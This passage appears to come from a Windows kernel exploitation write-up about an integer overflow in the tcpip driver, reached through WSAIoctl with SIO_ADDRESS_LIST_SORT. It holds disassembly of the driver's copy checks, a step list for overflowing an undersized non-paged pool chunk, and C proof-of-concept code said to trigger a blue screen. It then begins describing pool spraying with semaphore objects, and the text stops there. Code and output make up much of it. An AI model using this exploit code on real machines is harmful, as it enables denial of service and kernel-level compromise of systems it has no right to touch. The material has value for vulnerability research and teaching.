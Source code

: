 ```text
WSAIoctl(sock, SIO_ADDRESS_LIST_SORT, pwn, 0x1000, pwn, 0x1000, &cb, NULL, NULL)
```
You have to pass the function a pointer to a *SOCKET_ADDRESS_LIST* (*pwn* in the example). This *SOCKET_ADDRESS_LIST* contains an *iAddressCount* field and *iAddressCount* *SOCKET_ADDRESS* structures. With a high *iAddressCount* value, the integer will wrap, thus triggering the wrong-sized allocation.  We can almost write anything in those structures. There are only two limitations : 

```text
IppFlattenAddressList(x,x)+25   lea     ecx, [ecx+ebx*8]
IppFlattenAddressList(x,x)+28   cmp     dword ptr [ecx+8], 1Ch
IppFlattenAddressList(x,x)+2C   jz      short loc_4DCA9 

IppFlattenAddressList(x,x)+9C   cmp     word ptr [edx], 17h
IppFlattenAddressList(x,x)+A0   jnz     short loc_4DCA2
```

The copy will stop if those checks fail. That means that each *SOCKET_ADDRESS* has a length of 0x1c and that each *SOCKADDR* buffer pointed to by the socket address begins with a 0x17 byte. Long story short :

  * Make the multiplication at *IppSortDestinationAddresses+29* overflow
  * Get a non-paged pool chunk at *IppSortDestinationAddresses+3e* that is too little
  * Write user controlled memory to this chunk in *IppFlattenAddressList+67* and overflow as much as you want (provided that you take care of the 0x1c and 0x17 bytes)

The code below should trigger a BSOD. Now the objective is to place an object after our vulnerable object and modify pool metadata. 
```text
WSADATA wd = {0};
SOCKET sock = 0;
SOCKET_ADDRESS_LIST *pwn = (SOCKET_ADDRESS_LIST*)malloc(sizeof(INT) + 4 * sizeof(SOCKET_ADDRESS));
DWORD cb;

memset(buffer,0x41,0x1c);
buffer[0] = 0x17;
buffer[1] = 0x00;
sa.lpSockaddr = (LPSOCKADDR)buffer;
sa.iSockaddrLength = 0x1c;
pwn->iAddressCount = 0x40000003;
memcpy(&pwn->Address[0],&sa,sizeof(_SOCKET_ADDRESS));
memcpy(&pwn->Address[1],&sa,sizeof(_SOCKET_ADDRESS));
memcpy(&pwn->Address[2],&sa,sizeof(_SOCKET_ADDRESS));
memcpy(&pwn->Address[3],&sa,sizeof(_SOCKET_ADDRESS));

WSAStartup(MAKEWORD(2,0), &wd)
sock = socket(AF_INET6, SOCK_STREAM, IPPROTO_TCP);
WSAIoctl(sock, SIO_ADDRESS_LIST_SORT, pwn, 0x1000, pwn, 0x1000, &cb, NULL, NULL)
```

#Spraying the pool 
##Non paged objects

There are several objects that we could easily use to manipulate the non-paged pool. For instance we could use semaphore objects or reserve objects.
```text
*8516b848 size:   48 previous size:   48  (Allocated) Sema 
*85242d08 size:   68 previous size:   68  (Allocated) User 
*850fcea8 size:   60 previous size:    8  (Allocated) IoCo 
```
